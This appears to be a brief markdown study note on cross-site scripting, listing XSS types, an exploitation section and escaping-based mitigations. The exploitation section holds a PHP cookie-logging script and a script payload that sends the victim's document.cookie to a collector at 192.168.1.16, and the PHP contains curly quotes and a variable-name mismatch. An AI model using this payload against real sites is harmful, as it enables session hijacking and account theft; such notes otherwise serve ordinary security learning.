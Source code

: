# XSS

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```


## Exploitation
- Session Hijacking
  - Cookie Stealer (PHP for Apache web server)
```PHP
<?php
$Cookie=$_GET[‘txt’];
$log=”Cookie=$cookie\r\n”;
$f=fopen(“log.txt”,”a”);
fwrite($f,$log);
?>
```
  - XSS Payload
```javascript
<script>window.location=”http://192.168.1.16/cookie1.php?txt=” + document.cookie;</script>
```

- Fake Page
  - g

- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
